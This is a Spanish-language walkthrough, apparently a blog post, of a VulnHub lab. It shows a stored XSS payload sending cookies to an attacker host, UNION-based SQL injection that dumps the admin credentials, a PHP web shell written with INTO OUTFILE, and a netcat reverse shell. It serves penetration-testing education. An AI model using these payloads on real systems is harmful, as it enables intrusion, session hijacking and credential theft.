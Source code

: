```yaml
---
layout: post
title: XSS and MySQL file - VulnHub
tags: [xss,sql]
subtitle: "XSS and MySQL file - VulnHub"
---
```


- [Puertos abiertos](#puertos-abiertos)
- [Servicio web (80)](#servicio-web--80-)
  * [Fuzzing](#fuzzing)
  * [XSS](#xss)
  * [SQL injection](#sql-injection)
    + [Cantidad de columnas](#cantidad-de-columnas)
    + [Obteniendo datos de MySQL](#obteniendo-datos-de-mysql)
    + [Enumerar Base de Datos](#enumerar-base-de-datos)
    + [Enumerar tablas](#enumerar-tablas)
    + [Enumerar columnas](#enumerar-columnas)
    + [Cantidad de registros](#cantidad-de-registros)
    + [Extraer registros](#extraer-registros)
    + [Escritura de archivo](#escritura-de-archivo)
    + [Shell Inverso (www-data)](#shell-inverso--www-data-)

----

## Puertos abiertos

```
22/tcp open  ssh     OpenSSH 5.5p1 Debian 6+squeeze4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.16 ((Debian))
```

## Servicio web (80)

![web](../assets/imgs/xss_mysql/web.png)

### Fuzzing

```
❯ ffuf -w /usr/share/wordlists/dirb/common.txt -u "http://192.168.0.100/FUZZ" -c -t 200 -fc 403
[...]
admin                   [Status: 301, Size: 314, Words: 20, Lines: 10]
all                     [Status: 200, Size: 644, Words: 177, Lines: 39]
cat                     [Status: 200, Size: 644, Words: 177, Lines: 39]
classes                 [Status: 301, Size: 316, Words: 20, Lines: 10]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 14122, Words: 63, Lines: 77]
footer                  [Status: 200, Size: 185, Words: 75, Lines: 16]
header                  [Status: 200, Size: 571, Words: 167, Lines: 34]
index                   [Status: 200, Size: 1297, Words: 304, Lines: 60]
index.php               [Status: 200, Size: 1297, Words: 304, Lines: 60]
post                    [Status: 200, Size: 786, Words: 200, Lines: 39]
                        [Status: 200, Size: 1297, Words: 304, Lines: 60]
images                  [Status: 301, Size: 315, Words: 20, Lines: 10]
```

### XSS

Es una vulnerabilidad que permite a un atacante inyectar en un sitio web código malicioso del lado del cliente. Éste código es ejecurado por las vívtimas y permite a los atacantes eludir los controles de acceso y hacerse pasar por usuarios.

En etes caso nos encontramso ante un `XSS almacenado` o persistente, ya que a través de de esta vulnerabilidad, el script malicioso inyectado se almacena permanentemente dentro del servidor de las base de datos de la aplicación web.


**Payload:**

| argumento         | descripción                                                 |
|-------------------|-------------------------------------------------------------|
| document.write()  | escribe una cadena dentro del hilo de un `document` abierto |
| document.cookie() | obtiene las `cookies` asociadas con el documento            |
| <script\>         | insertar codigo javascript                                  |
| <img\>            | repersenta una imágen en el documento                       |
| src               | la url de la imágen                                         |

```
<script>document.write('<img src="http://192.168.0.107:8000/test.jpg?cookies='+document.cookie+'">')</script>
```

![xss](../assets/imgs/xss_mysql/xss.png)

Abrimos un servicio web con `python` para la captura de la cookie de `adminsitrador`.

![python](../assets/imgs/xss_mysql/python.png)

Cambiamos la cookie a traves del plugin `cookie manager` del navegador Firefox, tambien hat otras opciones como BurpSuite o en la opción `storage` de Firefox

![admin](../assets/imgs/xss_mysql/admin.png)

----

### SQL injection

Párametro vulnerable: `http://192.168.0.102/admin/edit.php?id=2%27`

![sql](../assets/imgs/xss_mysql/sql.png)

#### Cantidad de columnas

```
http://192.168.0.102/admin/edit.php?id=1 order by 1-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 2-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 3-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 4-- -		(+)
http://192.168.0.102/admin/edit.php?id=1 order by 5-- -		(!)
```

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,3,4-- -
```

![union](../assets/imgs/xss_mysql/union.png)

#### Obteniendo datos de MySQL

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,version(),database(),4-- -
```

![mysql](../assets/imgs/xss_mysql/mysql.png)

#### Enumerar Base de Datos

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.schemata-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 0,1-- -	(information_schema)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 1,1-- -	(blog)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,schema_name,4 from information_schema.schemata limit 2,1-- -	(mysql)
```

#### Enumerar tablas

```
http://192.168.0.102/admin/edit.php?id=3 union select  1,2,count(*),4 FROM information_schema.tables WHERE table_schema="blog"-- -				(3)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 0,1-- -	(comments)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 1,1-- -	(posts)
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,table_name,4 FROM information_schema.tables WHERE table_schema="blog" limit 2,1-- -	(users)
```

#### Enumerar columnas

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(*),4 from information_schema.columns WHERE table_name="users" and table_schema="blog"-- -			(3)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 0,1-- -		(id)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 1,1-- -		(login)
192.168.0.102/admin/edit.php?id=3 union select 1,2,column_name,4 from information_schema.columns WHERE table_name="users" and table_schema="blog" limit 2,1-- -		(password)
```
#### Cantidad de registros

Visualizar la cantidad de registros de una tabla (en este caso lala tabla `users`de la DDBB `blog`).

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,count(id),4 from blog.users-- -
```

#### Extraer registros

Como sólo hay un registro omitiré las limitaciones

```
192.168.0.102/admin/edit.php?id=3 union select 1,2,concat(id,0x3a,login,0x3a,password), 4 from blog.users-- -
```

![administrator](../assets/imgs/xss_mysql/administrator.png)


Posteriormente crackeo el hash obteniendo la contraseña de usuario `admin`.

![hash](../assets/imgs/xss_mysql/hash.png)

```
admin ::8efe310f9ab3efeae8d410a8e0166eb2 :: P4ssw0rd
```

#### Escritura de archivo

Despues de hacer enumeraciones en los distintos directorios del sitio web descubrí que en la ruta del sistema `/var/www/css` tengo permisos de escritura

```
http://192.168.0.102/admin/edit.php?id=3 union select 1,2,"<?php echo system($_REQUEST['cmd']); ?>",4 INTO OUTFILE '/var/www/css/test.php'-- -
```

Inyecto en la variable `cmd` un comando un de sistema para comprobar si se puede ejecutar

![www](../assets/imgs/xss_mysql/www.png)


#### Shell Inverso (www-data)

```
192.168.0.102/css/test.php?cmd=nc -e /bin/bash 192.168.0.107 4444
```

Pongo en escucha para capturar la shell.

![nc](../assets/imgs/xss_mysql/nc.png)




<!--![cron](../assets/imgs/xss_mysql/cron.png)-->
